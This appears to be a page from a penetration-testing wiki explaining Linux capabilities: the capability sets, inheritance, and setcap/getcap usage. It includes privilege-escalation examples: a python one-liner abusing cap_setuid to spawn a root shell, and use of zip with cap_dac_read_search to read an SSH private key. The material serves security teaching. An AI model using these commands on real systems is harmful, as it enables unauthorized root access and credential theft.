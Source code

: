 ```yaml
---
authors: ShutdownRepo, p0dalirius
category: infra
---
```


# 🛠️ Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

Basic processes : Have no capabilities (file access is controlled by traditional file privileges).

(Binary) files : Can have capabilities (filesystem-dependent).

Capabilities are in separated in 5 sets :

| Set | Description |
| --------------- | ------------------------------------------------------------------------------------------- |
| Effective set | the set that will be used when doing permission check. |
| Permitted set | can be moved to effective set by calling `capset()` |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set | list of all the capabilities a process can ever receive (in its inheritable/permitted sets) |
| Ambiant set | passed to non-suid files without defined capabilities |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
 * drop any capability from any set
 * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages (see `man capabilities`).

Non-exhaustive capability list :

| Capability | Description |
| ----------------------- | -------------------------------------------------- |
| `CAP_AUDIT_CONTROL` | Toggle kernel auditing |
| `CAP_AUDIT_WRITE` | Write to kernel audit log |
| `CAP_CHOWN` | Change file owners |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID |
| `CAP_NET_RAW` | Open raw and packet sockets |
| `CAP_NET_BIND_SERVICE` | Bind a socket to Internet domain privileged ports |

## Practice

Setting a file's capabilities :

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

Exploiting capabilities :

* Empty capabilities

 If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

> [!TIP]
> To create a file with empty (=all) capabilities just`sudo setcap \=ep /path/to/file` 

Other classic examples :

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

End notes :

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

[https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work)

[https://blog.ploetzli.ch/2014/understanding-linux-capabilities/](https://blog.ploetzli.ch/2014/understanding-linux-capabilities/)

[https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/](https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/)